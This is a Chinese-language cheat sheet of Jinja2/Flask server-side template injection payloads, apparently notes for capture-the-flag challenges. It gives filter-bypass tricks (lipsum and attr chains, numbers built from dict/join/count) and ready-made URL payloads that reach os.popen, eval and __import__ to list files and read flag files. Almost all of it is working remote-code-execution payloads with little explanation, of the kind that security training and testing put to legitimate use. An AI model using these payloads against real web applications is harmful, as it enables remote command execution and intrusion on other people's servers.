 ### 数字过滤

1. 用循环找到能利用的类直接用

```python
{% for i in ''.__class__.__base__.__subclasses__() %}{% if i.__name__=='Popen' %}{{ i.__init__.__globals__.__getitem__('os').popen('cat flag').read()}}{% endif %}{% endfor %}
```

2. 用 lipsum 不通过数字直接利用

```python
{{lipsum|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("cat flag")|attr("read")()}}
```

3.直接拼接

```py
{%set zero=([]|string|list).index('[')%}
{%set one=dict(a=a)|join|count%}
{%set two=dict(aa=a)|join|count%}
{%set three=dict(aaa=a)|join|count%}
{%set four=dict(aaaa=a)|join|count%}
{%set five=dict(aaaaa=a)|join|count%}
{%set six=dict(aaaaaa=a)|join|count%}
{%set seven=dict(aaaaaaa=a)|join|count%}
{%set eight=dict(aaaaaaaa=a)|join|count%}
{%set nine=dict(aaaaaaaaa=a)|join|count%}
# 拼接为140
{% set num=(one~four~zero)|int %}
# 最终payload
{%set one=dict(a=a)|join|count%}
{%set four=dict(aaaa=a)|join|count%}
{%set zero=([]|string|list).index('[')%}
{% set num=(one~four~zero)|int %}
{{().__class__.__base__.__subclasses__()[num].__init__.__globals__['__builtins__']['__import__']('os').popen('ls').read()}}
```

## ssti 注入

测试

<pre>/hello?name=
{% for i in range(10) %}
{% print(i) %}
{% endfor %}
</pre>

输出了结果，说明有漏洞

```python
/hello?name={{config.__class__.__init__.__globals__['os'].popen('cat ../app/flag').read()}}
/hello?name={{"".__class__}} 返回str
/hello?name={{"".__class__.__base__.__subclasses__()[302]}} # popen
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("ls /app").read()}}
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("cat /app/flag").read()}}
[].__class__.__base__.__subclasses__()[58].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag.txt').read()")
# WarningMessage
{{''.__class__.__base__.__subclasses__()[221].__init__['__glob''als__']['__builtins__']['eval']}}

# python2 input漏洞
__import__('os').popen('cat /flag.txt').read()
## appconfig
__class__.__init__.__globals__[app].config
```